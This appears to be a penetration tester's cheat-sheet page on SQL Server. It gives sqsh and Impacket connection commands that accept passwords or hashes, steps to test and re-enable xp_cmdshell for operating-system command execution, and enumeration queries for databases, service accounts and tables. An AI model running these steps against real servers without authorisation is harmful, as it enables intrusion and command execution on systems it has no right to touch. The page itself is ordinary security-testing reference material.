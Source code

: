```yaml
---
layout: default
title: SQL
---
```


# SQL
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## CLI Tools
```shell
sqsh -S 10.10.10.10 -U <username> -P <password/hash>
```
- Supports Kerberos but don't know of way to use Windows authentication

---

## MSSQL
Impacket CLI Client
```shell
/usr/share/doc/python-impacket/examples/mssqlclient.py <user>@10.10.10.10
```
- `[[domain/]username[:password]@]10.10.10.10`
- If you provide the password as part of the target then it's treated as an LDAP query; use the prompt otherwise

Test `xp_cmdshell`
```sql
xp_cmdshell 'whoami'
GO
```

If disabled, attempt to enable
```sql
EXEC SP_CONFIGURE 'show advanced options', 1  -- only do this if it doesn't work regularly and it's actually an advanced option
RECONFIGURE  -- as above
EXEC SP_CONFIGURE 'xp_cmdshell', 1
RECONFIGURE
GO
```

List databases
```sql
SELECT name FROM master.sys.databases
```

List details (only runnable if db account has admin privileges)
```sql
SELECT  DSS.servicename,
        DSS.startup_type_desc,
        DSS.status_desc,
        DSS.last_startup_time,
        DSS.service_account,
        DSS.is_clustered,
        DSS.cluster_nodename,
        DSS.filename,
        DSS.startup_type,
        DSS.status,
        DSS.process_id
FROM    sys.dm_server_services AS DSS
```

List tables in database
```sql
USE <database name>
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
```

---

## PowerUpSQL
_Must run from Windows; issues with Powershell for Linux_

<https://github.com/NetSPI/PowerUpSQL>

TODO